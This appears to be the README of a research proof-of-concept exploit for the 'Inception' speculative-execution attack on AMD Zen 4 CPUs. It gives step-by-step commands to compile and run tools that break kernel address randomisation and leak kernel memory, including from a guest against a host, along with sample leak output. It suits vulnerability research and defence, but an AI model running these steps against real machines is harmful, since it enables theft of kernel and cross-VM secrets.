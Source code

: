 This folder contains the PoC exploit of Inception for Zen 4.

1. Compile the workload and inception binaries

Use the `compile.sh` script (make sure you set the `CORE1` and `CORE2` to sibling threads.

Changing SET (0 - 63) can sometimes improve the performance of the exploit.

2. Run the Inception KASLR break:

./inception_kaslr <mode>

`<mode>` is optional and if it's omitted will run on against the Ubuntu Linux kernel 5.19.0-28-generic image.
To run against the kernel module in `kmod` specify 1, to run within a guest against a host running the `kmod`
module specify 2.

Note that finding the physical address of the reload buffer (second step of inception_kaslr) can take a few minutes,
depending on the size of your physical memory.

3. Lastly, run Inception, and pass the kernel text, physmap address and a kernel address from which you want to leak:

./inception <INSERT KERNEL TEXT> <INSERT PHYSMAP ADDRESS> <INSERT KERNEL ADDRESS> <mode>

The results are printed to stdout and are also stored in data.bin.
Before running, make sure transparent hugepages are enabled, since we rely on this feature for
reducing entropy (not a strict requirement of Inception).

To enable transparent hugepages:
```
echo always > /sys/kernel/mm/transparent_hugepage/enabled
echo 512 > /proc/sys/vm/nr_hugepages
```

Optional: The kmod in ./kmod can be installed to get an example kernel address from which we can leak:

cd ../kmod; make install; dmesg | tail -n 10; cd ../zen_4

The output of inception_kaslr should look like the following:

.............
Leaked _text: 0xffffffff8ea00000
...........
Physical: 0x2ba00000
...............................................
Leaked physmap: 0xffff9f6340000000
Broke KASLR in 216 seconds

When leaking from the provided kmod, the output of inception should look something like this:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
